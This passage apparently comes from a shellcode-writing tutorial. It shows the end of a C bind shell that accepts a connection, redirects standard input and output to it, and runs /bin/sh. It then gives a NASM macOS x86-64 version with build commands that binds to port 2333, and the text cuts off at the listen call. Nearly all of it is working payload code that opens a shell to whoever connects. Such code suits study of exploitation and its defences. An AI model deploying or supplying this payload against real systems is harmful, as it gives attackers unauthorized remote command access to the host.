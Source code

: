 ```c
    listen(srvfd, 0);

    int clifd;
    clifd = accept(srvfd, NULL, NULL);
    dup2(clifd, 0);
    dup2(clifd, 1);
    dup2(clifd, 2);

    execve("/bin/sh", NULL, NULL);
}
```

Then, implement it using NASM:

```nasm
; nasm -f macho64 bindshell.asm
; ld -macosx_version_min 10.14 -L /Library/Developer/CommandLineTools/SDKs/MacOSX.sdk/usr/lib -lSystem -o bindshell bindshell.o 
; objdump -d bindshell

BITS        64
global      _main

section     .text
_main:
    ; socket
    xor     rax, rax
    mov     al, 0x2          ; rax=0x2
    ror     rax, 0x28        ; rax=0x2000000
    mov     al, 0x61         ; rax=socket
    mov     r8, rax   

    xor     rdx, rdx        ; rdx = IPPROTO_IP(0)
    mov     rsi, rdx
    inc     rsi             ; rsi = SOCK_STREAM(1)
    mov     rdi, rsi        ;
    inc     rdi             ; rdi = AF_INET(2)
    syscall                 ; socket(AF_INET, SOCK_STREAM, IPPROTO_IP);

    mov     r12, rax        ; r12 = sfd

    ; sockaddr
    ; ip = 0.0.0.0 port = 2333 family = 2
    xor     r13, r13
    xor     r9, r9
    add     r13, 0x1D090101
    mov     r9b, 0xFF
    sub     r13, r9

    push    r13
    mov     r13, rsp
    
    ; bind
    add     r8, 0x7
    mov     rax, r8         ; rax = bind
    mov     rdi, r12        ; rdi = sfd
    mov     rsi, r13        ; rsi = sockaddr
    add     rdx, 0x10       ; rdx = len(sockaddr_in) = 16
    syscall

    ; listen
    add     r8, 0x2
    mov     rax, r8         ; rax = listen
    mov     rdi, r12        ; rdi = sfd
```